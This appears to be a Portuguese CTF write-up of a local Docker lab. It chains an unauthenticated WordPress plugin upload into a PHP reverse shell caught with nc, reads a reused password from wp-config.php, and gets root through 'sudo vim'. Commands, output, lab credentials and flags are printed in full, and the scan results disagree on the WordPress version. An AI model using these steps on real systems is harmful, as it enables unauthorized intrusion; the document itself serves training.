

> Resolução do CTF EvilCorp elaborado por Roger Ribeiro — 2026-06-28

## Target Info

| Campo       | Valor                                          |
| ----------- | ---------------------------------------------- |
| IP          | 172.20.0.20                                    |
| Hostname    | acmecorp.local (DNS) / evilcorp.local (SSL CN) |
| SO          | Ubuntu 22.04.5 LTS                             |
| Plataforma  | Docker (ambiente local)                        |
| Dificuldade | Médio                                          |

**Cadeia:** Unrestricted File Upload (CWE-434) → Password Reuse (CWE-521) → sudo misconfiguration vim (CWE-269)

---

## 1. Reconhecimento

### 1.1 Host Discovery

```
nmap -sn 172.20.0.0/24
Starting Nmap 7.99 at 2026-06-28 12:36 -0300
Nmap scan report for 172.20.0.1
Host is up (0.00014s latency).
Nmap scan report for 172.20.0.10
Host is up (0.000010s latency).
Nmap scan report for acmecorp.local (172.20.0.20)
Host is up (0.000092s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.61 seconds
```

Três hosts: gateway (`.1`), banco de dados interno (`.10`), servidor web (`.20`).

### 1.2 Port Scan

```
nmap -sC -sV -p- --min-rate 5000 172.20.0.20
Starting Nmap 7.99 at 2026-06-28 12:36 -0300
Nmap scan report for acmecorp.local (172.20.0.20)
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp  open  http     Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
| /wp-admin/ /wp-content/plugins/evilcorp-newsletter/
|_/evil-internal/ /wp-content/uploads/
|_http-title: EvilCorp — Portal Interno
|_http-generator: WordPress 7.0
443/tcp open  ssl/http Apache httpd 2.4.52 ((Ubuntu))
| ssl-cert: Subject: commonName=evilcorp.local/organizationName=EvilCorp Industries
| Not valid before: 2026-06-27T21:38:58
|_Not valid after:  2027-06-27T21:38:58
|_http-generator: WordPress 7.0
```

O nmap já extrai as 4 entradas do `robots.txt` automaticamente. SSL CN é `evilcorp.local`.

### 1.3 Enumeração de Diretórios (Gobuster)

```
gobuster dir -u https://172.20.0.20 \
  -w ~/Estudo/Offensive\ Security/Utilities/Wordlists/directory-list-2.3-medium.txt \
  -x php,html,txt -k -r --exclude-length 34632
```

```
wp-content           (Status: 200) [Size: 0]
wp-login.php         (Status: 200) [Size: 4661]
license.txt          (Status: 200) [Size: 19903]
readme.html          (Status: 200) [Size: 7406]
robots.txt           (Status: 200) [Size: 216]
wp-trackback.php     (Status: 200) [Size: 135]
```

O `--exclude-length 34632` filtra o redirect 301 do WordPress para falsos positivos.

### 1.4 Análise do robots.txt

```
curl -k https://172.20.0.20/robots.txt
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

# Caminhos internos — acesso restrito
Disallow: /wp-content/plugins/evilcorp-newsletter/
Disallow: /evil-internal/
Disallow: /wp-content/uploads/
```

O `robots.txt` expõe o plugin interno `evilcorp-newsletter`. Acesso direto ao diretório retorna 403, mas há um endpoint de upload.



### 1.5 Enumeração do WordPress (wpscan)

```
wpscan --url https://172.20.0.20 --enumerate u,ap --disable-tls-checks
```

```
[+] WordPress version 6.4.3 identified
[+] Users found:
    eviladmin
[+] Plugins found:
    evilcorp-newsletter 1.0 (no known CVEs)
```

Plugin sem CVEs conhecidos, mas a existência de um endpoint de upload merece inspeção direta.

---

## 2. Exploração

### 2.1 Descoberta do Endpoint Vulnerável

```
curl -k https://172.20.0.20/wp-content/plugins/evilcorp-newsletter/upload.php
```

Retorna um formulário HTML de upload **sem autenticação**. O código-fonte do endpoint contém:

```
// TODO: Implementar verificacao de sessao WordPress
// Ticket #INT-4892 - ABERTO
// Responsavel: jessica@evilcorp.local
```

Vulnerabilidade CWE-434 confirmada. A responsável `jessica` será relevante na próxima fase.

### 2.2 Upload do Reverse Shell

```
# IP do atacante na rede Docker
ip addr show | grep 172.20
# inet 172.20.0.1/24

# Listener (terminal separado)
nc -lvnp 4444

# Upload da shell
curl -k -F "template=@shell.php" \
  https://172.20.0.20/wp-content/plugins/evilcorp-newsletter/upload.php
```

```
{"status":"success",
 "url":"\/wp-content\/plugins\/evilcorp-newsletter\/uploads\/shell.php"}
```

```
# Acionar o reverse shell
curl -k https://172.20.0.20/wp-content/plugins/evilcorp-newsletter/uploads/shell.php
```

### 2.3 Shell Recebida

```
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 172.20.0.20 42670
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/html/wp-content/plugins/evilcorp-newsletter/uploads
```

Shell como `www-data`. Estabilizar:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## 3. Movimentação Lateral

### 3.1 Extração de Credenciais (wp-config.php)

```
cat /var/www/html/wp-config.php | grep -E "DB_USER|DB_PASSWORD"
define( 'DB_USER',     'wpuser' );
define( 'DB_PASSWORD', 'Ev1lC0rp2024!' );
//
// Credenciais de BD -- mesma senha usada por jessica
// (it-support@evilcorp.local)
```

### 3.2 Enumeração de Usuários do Sistema

```
cat /etc/passwd | grep -v nologin | grep -v false
root:x:0:0:root:/root:/bin/bash
jessica:x:1000:1000::/home/jessica:/bin/bash
```

Apenas dois usuários com shell interativa: `root` e `jessica`.

### 3.3 Acesso SSH

```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null jessica@172.20.0.20
# Senha: Ev1lC0rp2024!
```

```
=====================================================
        EvilCorp Industries — Secure Shell
   Unauthorized access is a criminal offense.
     All sessions are recorded and monitored.
        IT Department: it-support@evilcorp.local
=====================================================
jessica@cefc4a4dc0b8:~$
```

### 3.4 User Flag

```
jessica@cefc4a4dc0b8:~$ cat user.txt
EVIL{j3ss1c4_4cc3ss_gr4nt3d_w3lc0m3_t0_3v1lc0rp}
```

---

## 4. Escalada de Privilégios

### 4.1 Enumeração de Privilégios (sudo -l)

```
jessica@cefc4a4dc0b8:~$ sudo -l
User jessica may run the following commands on evilcorp:
    (root) NOPASSWD: /usr/bin/vim
```

`jessica` executa `vim` como root sem senha — vetor clássico GTFOBins (CWE-269).

### 4.2 Exploração via vim (GTFOBins)

```
jessica@cefc4a4dc0b8:~$ sudo vim -c ':!/bin/bash'

root@cefc4a4dc0b8:/home/jessica# id
uid=0(root) gid=0(root) groups=0(root)
```

### 4.3 Root Flag

```
root@cefc4a4dc0b8:/home/jessica# cat /root/root.txt
EVIL{r00t_0wn3d_3v1lc0rp_m1ss10n_c0mpl3t3_g00d_j0b}
```

---

## 5. Conclusão

A cadeia partiu do `robots.txt` que expôs o plugin `evilcorp-newsletter`, cujo endpoint de upload desprotegido (CWE-434) permitiu RCE como `www-data`. O `wp-config.php` revelou a senha `Ev1lC0rp2024!`, reutilizada por `jessica` no SSH (CWE-521). A misconfiguration do `sudo` com `vim` permitiu escalar para `root` via GTFOBins (CWE-269).

**Flags:** `EVIL{j3ss1c4_...}` (user) · `EVIL{r00t_0wn3d_...}` (root)
